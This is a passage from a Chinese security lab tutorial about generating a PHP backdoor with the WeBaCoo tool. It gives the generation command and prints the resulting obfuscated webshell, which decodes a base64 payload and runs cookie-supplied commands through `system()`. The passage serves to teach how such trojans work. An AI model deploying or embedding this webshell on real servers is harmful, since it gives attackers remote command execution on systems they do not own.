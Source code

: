 在弄清楚了 PHP 后门生成工具 WeBaCoo 常用参数含义之后，我们使用如下命令，创建后门木马程序。在命令行终端中输入命令，生成 PHP 木马文件：

```
# 其中 -o 代表输入文件，如不带地址，默认为当前执行程序的目录下
webacoo  -g -o hello.php
```

![图片描述](../imgs/1481013914062.png-wm.png)

使用 `ls` 命令查看当前目录下的文件，确认是否已经生成了木马文件：

![图片描述](../imgs/1481013974754.png-wm.png)

### 4.2  PHP 木马源码原理解析

作为一名信息安全人士，满足于工具的使用是远远不够的。对于对木马的形成原理，以及木马中的代码如何运行，需要有一定的了解。其中使用 WeBaCoo 工具的 `-r` 参数，生成的木马文件源码更加复杂。这里为了方便解释其最核心的代码原理，文档中没有使用 `-r` 参数，这样生成了木马文件更加方便理解。接下来使用 `cat` 命令，对生成的 PHP 木马代码源码进行查看：

```
# 输入 cat 命令，查看生成的木马代码源码
cat hello.php
```
生成的木马文件，其代码如下所示，其中的核心部分为：

```
<?php 

$b=strrev("edoced_4"."6esab");

eval($b(str_replace(" ","","a W Y o a X N z Z X Q o J F 9 D T 0 9 L S U V b J 2 N t J 1 0 p K X t v Y l 9 z d G F y d C g p O 3 N 5 c 3 R l b S h i Y X N l N j R f Z G V j b 2 R l K C R f Q 0 9 P S 0 l F W y d j b S d d K S 4 n I D I + J j E n K T t z Z X R j b 2 9 r a W U o J F 9 D T 0 9 L S U V b J 2 N u J 1 0 s J F 9 D T 0 9 L S U V b J 2 N w J 1 0 u Y m F z Z T Y 0 X 2 V u Y 2 9 k Z S h v Y l 9 n Z X R f Y 2 9 u d G V u d H M o K S k u J F 9 D T 0 9 L S U V b J 2 N w J 1 0 p O 2 9 i X 2 V u Z F 9 j b G V h b i g p O 3 0 = ")));

?>
```
> Base64 编码是一种 “防君子不防小人” 的编码方式。广泛应用于 MIME 协议，作为电子邮件的传输编码，生成的编码可逆，后一两位可能有“=”，生成的编码都是 ascii 字符。
